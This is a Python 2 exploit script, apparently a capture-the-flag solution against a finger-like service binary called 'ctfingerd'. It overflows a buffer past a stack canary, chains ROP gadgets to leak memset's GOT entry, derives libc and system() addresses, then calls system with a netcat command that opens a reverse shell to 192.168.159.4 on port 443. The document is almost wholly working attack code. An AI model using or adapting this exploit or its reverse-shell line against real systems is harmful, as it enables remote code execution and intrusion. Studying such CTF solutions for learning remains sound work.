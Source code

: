 ```python
s.connect((host, port))
response = s.recv(1024)
fd_pos = response.find("Socket FD: ")
socket_FD = int(response[fd_pos + 11:response.find("\n",fd_pos + 5)])
print "[+] Socket FD: " + str(socket_FD)

libc_memset_offset = 0x85620 # readelf -s libc.so.6 | grep memset
libc_system_offset = 0x41490 # readelf -s libc.so.6 | grep system
write_plt = 0x400920 # objdump -d ./ctfingerd | grep -A5 write@
read_plt = 0x4009b0 # objdump -d ./ctfingerd | grep -A5 read@
memset_GOT = 0x6014e0 # objdump -R ./ctfingerd | grep memset
poprdi_OP = 0x00401013 # pop rdi; ret obcode
poprsi_OP = 0x00401011 # pop rsi ; pop r15 ; ret obcode

payload = "A" * canary_position
payload += canary
payload += pack("<Q", 0x00)
payload += pack("<Q", poprdi_OP)
payload += pack("<Q", socket_FD)
payload += pack("<Q", poprsi_OP)
payload += pack("<Q", memset_GOT)
payload += pack("<Q", 0x00)
payload += pack("<Q", write_plt)
s.send(payload)
time.sleep(0.1)
response = s.recv(1024)
s.shutdown(1)
s.close()
split = response.split("\n")
memset_addr = unpack("<Q", split[2][:8])
libc_base = (memset_addr[0] - libc_memset_offset)
system_addr = (libc_base + libc_system_offset)

print "[+] Leaked memset addr: ", hex(memset_addr[0])
print "[+] libc base addr: ", hex(libc_base)
print "[+] sysem addr: ", hex(system_addr)

socket_FD = socket_FD + 1
print "[+] New Socket FD" + str(socket_FD)

payload = ""
payload += "A" * canary_position
payload += canary
payload += pack("<Q", 0x00)
payload += pack("<Q", poprdi_OP)
payload += pack("<Q", socket_FD)
payload += pack("<Q", poprsi_OP)
payload += pack("<Q", 0x601010)
payload += pack("<Q", socket_FD)           
payload += pack("<Q", read_plt)
payload += pack("<Q", poprdi_OP)
payload += pack("<Q", 0x601010)
payload += pack("<Q", system_addr)

s = socket()
s.connect((host, port))
print s.recv(1024)
s.send(payload)
time.sleep(0.1)

print "[+] Exploit..."
for i in range(0, 1000):
        s.send('/bin/nc 192.168.159.4 443 -e /bin/sh\x00')
```